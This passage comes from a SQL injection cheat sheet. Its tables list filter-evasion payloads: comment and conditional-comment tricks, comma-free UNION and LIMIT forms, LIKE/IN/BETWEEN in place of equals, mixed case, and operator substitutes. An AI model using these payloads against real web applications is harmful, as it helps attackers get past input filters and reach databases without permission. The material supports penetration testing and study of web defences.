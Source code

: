 
Bypass using comments and parenthesis.

| Bypass                                    | Technique            |
| ----------------------------------------- | -------------------- |
| `?id=1/*comment*/AND/**/1=1/**/--`        | Comment              |
| `?id=1/*!12345UNION*//*!12345SELECT*/1--` | Conditional comment  |
| `?id=(1)and(1)=(1)--`                     | Parenthesis          |

 
### No Comma Allowed
 
Bypass using `OFFSET`, `FROM` and `JOIN`.

| Forbidden           | Bypass |
| ------------------- | ------ |
| `LIMIT 0,1`         | `LIMIT 1 OFFSET 0` |
| `SUBSTR('SQL',1,1)` | `SUBSTR('SQL' FROM 1 FOR 1)` |
| `SELECT 1,2,3,4`    | `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d` |


### No Equal Allowed

Bypass using LIKE/NOT IN/IN/BETWEEN


| Bypass    | SQL Example |
| --------- | ------------------------------------------ |
| `LIKE`    | `SUBSTRING(VERSION(),1,1)LIKE(5)`          |
| `NOT IN`  | `SUBSTRING(VERSION(),1,1)NOT IN(4,3)`      |
| `IN`      | `SUBSTRING(VERSION(),1,1)IN(4,3)`          |
| `BETWEEN` | `SUBSTRING(VERSION(),1,1) BETWEEN 3 AND 4` |


### Case Modification

Bypass using uppercase/lowercase.

| Bypass    | Technique  |
| --------- | ---------- |
| `AND`     | Uppercase  |
| `and`     | Lowercase  |
| `aNd`     | Mixed case |


Bypass using keywords case insensitive or an equivalent operator.

| Forbidden | Bypass                      |
| --------- | --------------------------- |
| `AND`     | `&&`                        |
| `OR`      | `\|\|`                      |
| `=`       | `LIKE`, `REGEXP`, `BETWEEN` |
| `>`       | `NOT BETWEEN 0 AND X`       |
| `WHERE`   | `HAVING`                    |
